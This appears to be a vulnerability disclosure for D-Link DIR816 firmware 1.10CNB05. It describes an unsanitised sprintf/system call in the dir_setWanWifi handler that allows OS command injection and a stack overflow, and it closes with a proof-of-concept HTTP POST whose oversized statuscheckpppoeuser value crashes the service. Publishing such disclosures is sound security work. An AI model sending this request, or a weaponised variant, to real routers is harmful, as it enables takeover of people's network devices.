

# DLink DIR816 stack overflow vulnerability and
## Affected Version
DLink DIR816 1.10CNB05
## Vulnerability Description
In DLink DIR816 routers with firmware version 1.10CNB05, the statuscheckpppoeuser parameter of route /goform/dir_setWanWifi has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the sub_42DA54 function in DLink DIR816 firmware 1.10CNB05. The function sub_42DA54, registered to handle the "dir_setWanWifi" web form, accepts the statuscheckpppoeuser parameter from a Web request via the variable v6. This function contains a dual-threat security flaw. First, the statement sprintf(v32, "echo %s >/tmp/statuscheckpppoeuser", v6); followed by system(v32); leads to an OS Command Injection vulnerability. Because the user-supplied string is directly concatenated into a shell command without sanitization, an attacker can use shell metacharacters (e.g., ;, |, `) to execute arbitrary commands. Second, because sprintf performs this concatenation into the local stack-allocated buffer v32 without any boundary checks, the operation also triggers a stack-based buffer overflow if the input for v6 is excessively long. These vulnerabilities can be exploited to achieve Remote Code Execution (RCE) and gain full administrative control of the device.


## Poc
```py
POST /goform/dir_setWanWifi HTTP/1.1
Host: 192.168.1.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: curShow=

statuscheckpppoeuser=wwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww%connecttype=1&tokenid=1936217320
```
